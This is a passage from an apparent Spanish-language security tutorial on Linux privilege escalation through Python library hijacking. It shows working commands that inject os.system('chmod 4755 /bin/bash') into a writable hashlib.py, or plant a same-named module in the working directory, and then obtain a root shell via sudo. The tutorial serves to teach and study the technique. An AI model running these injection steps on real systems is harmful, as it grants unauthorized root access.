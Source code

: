 Listamos los permisos de estos 2 módulos:

```bash
pepito@parrot:~$ find / -type f -name "hashlib.py" -o -name "sys.py" 2>/dev/null | xargs ls -l
-rw-rw-rw- 1 root    root    10043 jun 11 11:32 /usr/lib/python3.9/hashlib.py
-rw-r--r-- 1 root    root      132 oct 31  2019 /usr/lib/python3/dist-packages/future/moves/sys.py
```

Como vemos, tenemos permisos de escritura en el módulo **_hashlib.py_**, para este caso inyectaremos código en el módulo para así poder escalar privilegios junto con los permisos de **SUDO**:

```bash
pepito@parrot:~$ echo -e 'import os\\nos.system("chmod 4755 /bin/bash")' >> /usr/lib/python3.9/hashlib.py
```

Si ejecutamos el script con **SUDO**, este ejecutará la instrucción que hemos añadido al módulo de **_hashlib.py_** y se ejecutará en contexto del usuario **root**:

```bash
pepito@parrot:~$ sudo /usr/bin/python3 /home/pepito/checkpassword.py 1234
False
pepito@parrot:~$ bash -p
bash-5.1# whoami
root
```

### Escenario 2 - Orden de prioridad en PATH de Python

En este escenario, nos basaremos en el orden de prioridad del PATH de la biblioteca de Python que se aplica al archivo de módulo que está importando nuestro script, como en el caso anterior **SYS** y **HASHLIB**.

Cuando importamos un módulo en un script de Python, este se buscará dentro de los directorios predeterminados con un orden de prioridad, este orden predeterminado es: **IZQUIERDA → DERECHA**

El módulo que se está buscando se ubicará en una de las rutas predeterminadas definidas por Python. En el caso de que exista un módulo en el mismo directorio que el script original, esta tendrá prioridad sobre las rutas predeterminadas.

Como podemos ver en la siguiente imagen, el primer directorio donde buscará el módulo será el directorio de trabajo actual:

[![](body/e603c405eb539826656bf3a2349e735810ff6c2d.png)](https://bypasseados.com/wp-content/uploads/2021/06/e603c405eb539826656bf3a2349e735810ff6c2d.png)

Seguimos con el mismo contexto que en el anterior escenario, pero sin los permisos de escritura en el módulo hashlib.py.

Para explotar este escenario, creamos un archivo python con el nombre del módulo que esté importando y lo ubicaremos en el directorio de trabajo actual, junto con el script original y añadimos nuestro código para la escalada de privilegios:

```bash
pepito@parrot:~$ touch hashlib.py

pepito@parrot:~$ chmod +x hashlib.py

pepito@parrot:~$ ls -l
total 8
-rwsr-xr-x 1 root   root   468 jun  9 14:21 checkpassword.py
-rwxr-xr-x 1 pepito pepito  44 jun 14 10:52 hashlib.py

pepito@parrot:~$ cat hashlib.py 
import os
os.system("chmod 4755 /bin/bash")
```
